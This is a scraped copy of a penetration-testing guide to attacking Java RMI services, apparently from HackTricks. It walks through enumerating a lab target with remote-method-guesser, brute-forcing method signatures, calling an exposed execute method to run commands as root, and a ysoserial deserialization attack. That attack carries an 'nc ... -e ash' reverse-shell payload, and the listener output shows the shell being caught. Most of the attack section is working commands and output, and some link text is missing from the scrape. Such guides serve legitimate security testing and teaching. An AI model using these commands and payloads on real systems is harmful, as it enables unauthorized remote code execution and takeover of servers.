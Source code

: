 
##
#
https://book.hacktricks.xyz/network-services-pentesting/1099-pentesting-java-rmi
#
https://itnext.io/java-rmi-for-pentesters-part-two-reconnaissance-attack-against-non-jmx-registries-187a6561314d
#
https://github.com/qtc-de/remote-method-guesser
#
https://bishopfox.com/blog/rmiscout
##


1098/1099/1050 - Pentesting Java RMI - RMI-IIOP
​ - -  - ​

Use  to easily build and automate workflows powered by the world's most advanced community tools.
Get Access Today:
Basic Information
Java Remote Method Invocation, or Java RMI, is an object oriented RPC mechanism that allows an object located in one Java virtual machine to call methods on an object located in another Java virtual machine. This enables developers to write distributed applications using an object-oriented paradigm. A short introduction to Java RMI from an offensive perspective can be found in .
Default port: 1090,1098,1099,1199,4443-4446,8999-9010,9999
PORT      STATE SERVICE      VERSION
1090/tcp  open  ssl/java-rmi Java RMI
9010/tcp  open  java-rmi     Java RMI
37471/tcp open  java-rmi     Java RMI
40259/tcp open  ssl/java-rmi Java RMI
Usually, only the default Java RMI components (the RMI Registry and the Activation System) are bound to common ports. The remote objects that implement the actual RMI application are usually bound to random ports as shown in the output above.
nmap has sometimes troubles identifying SSL protected RMI services. If you encounter an unknown ssl service on a common RMI port, you should further investigate.
RMI Components
To put it in simple terms, Java RMI allows a developer to make a Java object available on the network. This opens up a TCP port where clients can connect and call methods on the corresponding object. Despite this sounds simple, there are several challenges that Java RMI needs to solve:
To dispatch a method call via Java RMI, clients need to know the IP address, the listening port, the implemented class or interface and the ObjID of the targeted object (the ObjID is a unique and random identifier that is created when the object is made available on the network. It is required because Java RMI allows multiple objects to listen on the same TCP port).
Remote clients may allocate resources on the server by invoking methods on the exposed object. The Java virtual machine needs to track which of these resources are still in use and which of them can be garbage collected.
The first challenge is solved by the RMI registry, which is basically a naming service for Java RMI. The RMI registry itself is also an RMI service, but the implemented interface and the ObjID are fixed and known by all RMI clients. This allows RMI clients to consume the RMI registry just by knowing the corresponding TCP port.
When developers want to make their Java objects available within the network, they usually bind them to an RMI registry. The registry stores all information required to connect to the object (IP address, listening port, implemented class or interface and the ObjID value) and makes it available under a human readable name (the bound name). Clients that want to consume the RMI service ask the RMI registry for the corresponding bound name and the registry returns all required information to connect. Thus, the situation is basically the same as with an ordinary DNS service. The following listing shows a small example:
import java.rmi.registry.Registry;
import java.rmi.registry.LocateRegistry;
import lab.example.rmi.interfaces.RemoteService;
​
public class ExampleClient {
​
  private static final String remoteHost = "172.17.0.2";
  private static final String boundName = "remote-service";
​
  public static void main(String[] args)
  {
    try {
      Registry registry = LocateRegistry.getRegistry(remoteHost);     // Connect to the RMI registry
      RemoteService ref = (RemoteService)registry.lookup(boundName);  // Lookup the desired bound name
      String response = ref.remoteMethod();                           // Call a remote method
    
    } catch( Exception e) {
      e.printStackTrace();
    }
  }
}
The second of the above mentioned challenges is solved by the Distributed Garbage Collector (DGC). This is another RMI service with a well known ObjID value and it is available on basically each RMI endpoint. When an RMI client starts to use an RMI service, it sends an information to the DGC that the corresponding remote object is in use. The DGC can then track the reference count and is able to cleanup unused objects.
Together with the deprecated Activation System, these are the three default components of Java RMI:
The RMI Registry (ObjID = 0)
The Activation System (ObjID = 1)
The Distributed Garbage Collector (ObjID = 2)
The default components of Java RMI have been known attack vectors for quite some time and multiple vulnerabilities exist in outdated Java versions. From an attacker perspective, these default components are interisting, because they implemented known classes / interfaces and it is easily possible to interact with them. This situation is different for custom RMI services. To call a method on a remote object, you need to know the corresponding method signature in advance. Without knowing an existing method signature, there is no way to communicate to a RMI service.
RMI Enumeration
​ is a Java RMI vulnerability scanner that is capable of identifying common RMI vulnerabilities automatically. Whenever you identify an RMI endpoint, you should give it a try:
$ rmg enum 172.17.0.2 9010
[+] RMI registry bound names:
[+]
[+] 	- plain-server2
[+] 		--> de.qtc.rmg.server.interfaces.IPlainServer (unknown class)
[+] 		    Endpoint: iinsecure.dev:37471  TLS: no  ObjID: [55ff5a5d:17e0501b054:-7ff7, 3638117546492248534]
[+] 	- legacy-service
[+] 		--> de.qtc.rmg.server.legacy.LegacyServiceImpl_Stub (unknown class)
[+] 		    Endpoint: iinsecure.dev:37471  TLS: no  ObjID: [55ff5a5d:17e0501b054:-7ffc, 708796783031663206]
[+] 	- plain-server
[+] 		--> de.qtc.rmg.server.interfaces.IPlainServer (unknown class)
[+] 		    Endpoint: iinsecure.dev:37471  TLS: no  ObjID: [55ff5a5d:17e0501b054:-7ff8, -4004948013687638236]
[+]
[+] RMI server codebase enumeration:
[+]
[+] 	- http://iinsecure.dev/well-hidden-development-folder/
[+] 		--> de.qtc.rmg.server.legacy.LegacyServiceImpl_Stub
[+] 		--> de.qtc.rmg.server.interfaces.IPlainServer
[+]
[+] RMI server String unmarshalling enumeration:
[+]
[+] 	- Caught ClassNotFoundException during lookup call.
[+] 	  --> The type java.lang.String is unmarshalled via readObject().
[+] 	  Configuration Status: Outdated
[+]
[+] RMI server useCodebaseOnly enumeration:
[+]
[+] 	- Caught MalformedURLException during lookup call.
[+] 	  --> The server attempted to parse the provided codebase (useCodebaseOnly=false).
[+] 	  Configuration Status: Non Default
[+]
[+] RMI registry localhost bypass enumeration (CVE-2019-2684):
[+]
[+] 	- Caught NotBoundException during unbind call (unbind was accepeted).
[+] 	  Vulnerability Status: Vulnerable
[+]
[+] RMI Security Manager enumeration:
[+]
[+] 	- Security Manager rejected access to the class loader.
[+] 	  --> The server does use a Security Manager.
[+] 	  Configuration Status: Current Default
[+]
[+] RMI server JEP290 enumeration:
[+]
[+] 	- DGC rejected deserialization of java.util.HashMap (JEP290 is installed).
[+] 	  Vulnerability Status: Non Vulnerable
[+]
[+] RMI registry JEP290 bypass enmeration:
[+]
[+] 	- Caught IllegalArgumentException after sending An Trinh gadget.
[+] 	  Vulnerability Status: Vulnerable
[+]
[+] RMI ActivationSystem enumeration:
[+]
[+] 	- Caught IllegalArgumentException during activate call (activator is present).
[+] 	  --> Deserialization allowed	 - Vulnerability Status: Vulnerable
[+] 	  --> Client codebase enabled	 - Configuration Status: Non Default
The output of the enumeration action is explained in more detail in the  of the project. Depending on the outcome, you should try to verify identified vulnerabilities.
The ObjID values displayed by remote-method-guesser can be used to determine the uptime of the service. This may allows to identify other vulnerabilities:
$ rmg objid '[55ff5a5d:17e0501b054:-7ff8, -4004948013687638236]'
[+] Details for ObjID [55ff5a5d:17e0501b054:-7ff8, -4004948013687638236]
[+]
[+] ObjNum: 		-4004948013687638236
[+] UID:
[+] 	Unique: 	1442798173
[+] 	Time: 		1640761503828 (Dec 29,2021 08:05)
[+] 	Count: 		-32760
Bruteforcing Remote Methods
Even when no vulnerabilities have been identified during enumeration, the available RMI services could still expose dangerous functions. Furthermore, despite RMI communication to RMI default components is protected by deserialization filters, when talking to custom RMI services, such filters are usually not in place. Knowing valid method signatures on RMI services is therefore valuable.
Unfortunately, Java RMI does not support enumerating methods on remote objects. That being said, it is possible to bruteforce method signatures with tools like  or :
$ rmg guess 172.17.0.2 9010
[+] Reading method candidates from internal wordlist rmg.txt
[+] 	752 methods were successfully parsed.
[+] Reading method candidates from internal wordlist rmiscout.txt
[+] 	2550 methods were successfully parsed.
[+]
[+] Starting Method Guessing on 3281 method signature(s).
[+]
[+] 	MethodGuesser is running:
[+] 		--------------------------------
[+] 		[ plain-server2  ] HIT! Method with signature String execute(String dummy) exists!
[+] 		[ plain-server2  ] HIT! Method with signature String system(String dummy, String[] dummy2) exists!
[+] 		[ legacy-service ] HIT! Method with signature void logMessage(int dummy1, String dummy2) exists!
[+] 		[ legacy-service ] HIT! Method with signature void releaseRecord(int recordID, String tableName, Integer remoteHashCode) exists!
[+] 		[ legacy-service ] HIT! Method with signature String login(java.util.HashMap dummy1) exists!
[+] 		[6562 / 6562] [#####################################] 100%
[+] 	done.
[+]
[+] Listing successfully guessed methods:
[+]
[+] 	- plain-server2 == plain-server
[+] 		--> String execute(String dummy)
[+] 		--> String system(String dummy, String[] dummy2)
[+] 	- legacy-service
[+] 		--> void logMessage(int dummy1, String dummy2)
[+] 		--> void releaseRecord(int recordID, String tableName, Integer remoteHashCode)
[+] 		--> String login(java.util.HashMap dummy1)
Identified methods can be called like this:
$ rmg call 172.17.0.2 9010 '"id"' --bound-name plain-server --signature "String execute(String dummy)" --plugin GenericPrint.jar 
[+] uid=0(root) gid=0(root) groups=0(root)
Or you can perform deserialization attacks like this:
$ rmg serial 172.17.0.2 9010 CommonsCollections6 'nc 172.17.0.1 4444 -e ash' --bound-name plain-server --signature "String execute(String dummy)"
[+] Creating ysoserial payload... done.
[+]
[+] Attempting deserialization attack on RMI endpoint...
[+]
[+] 	Using non primitive argument type java.lang.String on position 0
[+] 	Specified method signature is String execute(String dummy)
[+]
[+] 	Caught ClassNotFoundException during deserialization attack.
[+] 	Server attempted to deserialize canary class 6ac727def61a4800a09987c24352d7ea.
[+] 	Deserialization attack probably worked :)
​
$ nc -vlp 4444
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 172.17.0.2.
Ncat: Connection from 172.17.0.2:45479.
id
uid=0(root) gid=0(root) groups=0(root)
More information can be found in these articles:
​​
​​
​​
​​
Apart from guessing, you should also look in search engines or GitHub for the interface or even the implementation of an encountered RMI service. The bound name and the name of the implemented class or interface can be helpful here.
Known Interfaces
​ marks classes or interfaces as known if they are listed in the tool's internal database of known RMI services. In these cases you can use the known action to get more information on the corresponding RMI service:
$ rmg enum 172.17.0.2 1090 | head -n 5
[+] RMI registry bound names:
[+]
[+] 	- jmxrmi
[+] 		--> javax.management.remote.rmi.RMIServerImpl_Stub (known class: JMX Server)
[+] 		    Endpoint: localhost:41695  TLS: no  ObjID: [7e384a4f:17e0546f16f:-7ffe, -553451807350957585]
​
$ rmg known javax.management.remote.rmi.RMIServerImpl_Stub
[+] Name:
[+] 	JMX Server
[+]
[+] Class Name:
[+] 	- javax.management.remote.rmi.RMIServerImpl_Stub
[+] 	- javax.management.remote.rmi.RMIServer
[+]
[+] Description:
[+] 	Java Management Extensions (JMX) can be used to monitor and manage a running Java virtual machine.
[+] 	This remote object is the entrypoint for initiating a JMX connection. Clients call the newClient
[+] 	method usually passing a HashMap that contains connection options (e.g. credentials). The return
[+] 	value (RMIConnection object) is another remote object that is when used to perform JMX related
[+] 	actions. JMX uses the randomly assigned ObjID of the RMIConnection object as a session id.
[+]
[+] Remote Methods:
[+] 	- String getVersion()
[+] 	- javax.management.remote.rmi.RMIConnection newClient(Object params)
[+]
[+] References:
[+] 	- https://docs.oracle.com/javase/8/docs/technotes/guides/management/agent.html
[+] 	- https://github.com/openjdk/jdk/tree/master/src/java.management.rmi/share/classes/javax/management/remote/rmi
[+]
[+] Vulnerabilities:
[+]
[+] 	-----------------------------------
[+] 	Name:
[+] 		MLet
[+]
[+] 	Description:
[+] 		MLet is the name of an MBean that is usually available on JMX servers. It can be used to load
[+] 		other MBeans dynamically from user specified codebase locations (URLs). Access to the MLet MBean
[+] 		is therefore most of the time equivalent to remote code execution.
[+]
[+] 	References:
[+] 		- https://github.com/qtc-de/beanshooter
[+]
[+] 	-----------------------------------
[+] 	Name:
[+] 		Deserialization
[+]
[+] 	Description:
[+] 		Before CVE-2016-3427 got resolved, JMX accepted arbitrary objects during a call to the newClient
[+] 		method, resulting in insecure deserialization of untrusted objects. Despite being fixed, the
[+] 		actual JMX communication using the RMIConnection object is not filtered. Therefore, if you can
[+] 		establish a working JMX connection, you can also perform deserialization attacks.
[+]
[+] 	References:
[+] 		- https://github.com/qtc-de/beanshooter
Shodan
port:1099 java
